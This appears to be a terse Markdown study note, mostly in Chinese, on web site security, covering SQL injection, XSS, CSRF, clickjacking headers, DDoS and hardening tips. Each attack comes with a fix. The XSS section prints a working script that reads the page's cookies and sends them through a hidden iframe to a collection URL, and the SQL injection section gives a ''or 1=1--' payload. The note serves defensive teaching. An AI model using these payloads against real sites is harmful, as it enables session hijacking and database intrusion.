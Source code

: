 
### web site security

1. sql inject
```
攻击实例： 'or 1=1--
改正方法： sql使用参数化, 不拼sql
```

2. xss cross site scripting

```
攻击实例： 攻击者通常会在有漏洞的程序中插入JavaScript、VBScript、ActiveX或Flash以欺骗用户。一旦得手，他们可以盗取用户帐户信息，修改用户设置，盗取/污染cookie和植入恶意广告等。用 

<script type="text/javascript"> 
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    console.log("cookes: " + cookies);
    var xssURIBase = "http://localhost:9000/v2/xss?cookie=";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
</script>

改正方法：escape input
```
3. csrf Cross-site request forgery

```
攻击实例：  http:xxx.com/posts?title=1212&content=345345
1. 正确使用http method, get , post, put, delete, options, head, patch, trace, connect

攻击实例： http post  register
改正方法： 1. 验证码 2. csrf token 3. 关键业务重复数据密码

ajax: 跨域开放时，给出有限访问的白名单
改正方法： 给出有限访问的白名单


```
4. x-frame cfs

[test frame](./iframe.html)

```
Using X-Frame-Options
DENY
The page cannot be displayed in a frame, regardless of the site attempting to do
so.
SAMEORIGIN
The page can only be displayed in a frame on the same origin as the page itself.
ALLOW-FROM uri
The page can only be displayed in a frame on the specified origin.

Nginx config 
add_header X-Frame-Options SAMEORIGIN;
```

7. Ddos
```
加访问次数限制
```

### 加强安全
1. cookie
```
加密
```

2. 使用https

3. 密码
```
密码加密
```

4. 重复提交
```
 重复提交form 表单  使用token
```

5. mini and fix javascript
```
有点卵用,防小白
```

6. 统一的错误提示，不要暴力错误细节给用户


